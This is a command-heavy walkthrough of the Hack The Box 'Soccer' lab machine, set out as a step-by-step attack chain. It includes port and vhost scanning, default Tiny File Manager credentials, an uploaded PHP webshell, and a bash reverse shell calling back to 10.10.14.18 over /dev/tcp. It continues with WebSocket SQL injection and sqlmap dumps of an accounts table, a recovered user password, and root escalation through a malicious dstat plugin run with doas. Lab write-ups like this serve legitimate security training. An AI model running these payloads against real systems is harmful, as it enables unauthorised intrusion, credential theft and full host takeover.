 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🔍 Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.194
```

```
nmap -p 22,80,9091 -sCV 10.10.11.194
```

### FFUF (vhost fuzzing)
```bash
ffuf -u http://10.10.11.194 -H "Host: FUZZ.soccer.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

### [Feroxbuster](HTTP)
```bash
feroxbuster -u http://soccer.htb
```

---

## ⚙️ Initial Access (Tiny File Manager)

### Default creds
- `admin:admin@123`
- `user:12345`

### PHP Webshell
```php
<?php system($_REQUEST['cmd']); ?>
```

### Upload webshell to `/tiny/uploads/`
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'
```

```bash
nc -lvnp 1234
```
### Reverse Shell
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.18/1234 0>%261"'
```

---

## 👤 Priv Esc to `player`

### Check `/etc/nginx/sites-enabled/soc-player.htb`

Update `/etc/hosts`:
```
10.10.11.194 soccer.htb soc-player.soccer.htb
```

### WebSocket SQLi Injection
Payload:
```json
{"id": "0 OR 1=1-- -"}
```

### Sqlmap Command (WebSocket)
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 \
--data '{"id": "1234"}' \
--dbms mysql --batch --level 5 --risk 3 --threads 10
```

Dump credentials:
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 \
--data '{"id": "1234"}' \
-D soccer_db -T accounts --dump --threads 10
```

### Login as Player
```bash
su player  # or SSH
# Password: PlayerOftheMatch2022
```

---

## 🔓 Priv Esc to root

### doas Privilege Escalation
```bash
# Check allowed commands
doas -l

# Write plugin
echo -e 'import os\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_0xdf.py

# Trigger plugin
doas /usr/bin/dstat --0xdf
```